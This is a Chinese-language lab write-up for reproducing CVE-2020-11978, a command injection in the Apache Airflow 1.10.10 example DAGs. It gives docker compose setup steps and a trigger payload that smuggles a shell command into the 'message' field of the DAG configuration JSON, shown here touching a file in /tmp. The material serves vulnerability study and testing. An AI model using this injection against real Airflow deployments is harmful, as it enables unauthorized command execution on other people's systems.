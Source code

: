# Apache Airflow 示例dag中的命令注入（CVE-2020-11978）

Apache Airflow是一款开源的，分布式任务调度框架。在其1.10.10版本及以前的示例DAG中存在一处命令注入漏洞，未授权的访问者可以通过这个漏洞在Worker中执行任意命令。

由于启动的组件比较多，可能会有点卡，运行此环境可能需要准备2G以上的内存。

参考链接：

- <https://lists.apache.org/thread/cn57zwylxsnzjyjztwqxpmly0x9q5ljx>
- <https://github.com/pberba/CVE-2020-11978>

## 漏洞环境

依次执行如下命令启动airflow 1.10.10：

```bash
#初始化数据库
docker compose run airflow-init

#启动服务
docker compose up -d
```

## 漏洞复现

访问`http://your-ip:8080`进入airflow管理端，将`example_trigger_target_dag`前面的Off改为On：

![](1.png)

再点击执行按钮，在Configuration JSON中输入：`{"message":"'\";touch /tmp/airflow_dag_success;#"}`，再点`Trigger`执行dag：

![](2.png)

等几秒可以看到执行成功：

![](3.png)

到CeleryWorker容器中进行查看：

```bash
docker compose exec airflow-worker ls -l /tmp
```

可以看到`touch /tmp/airflow_dag_success`成功被执行：

![](4.png)
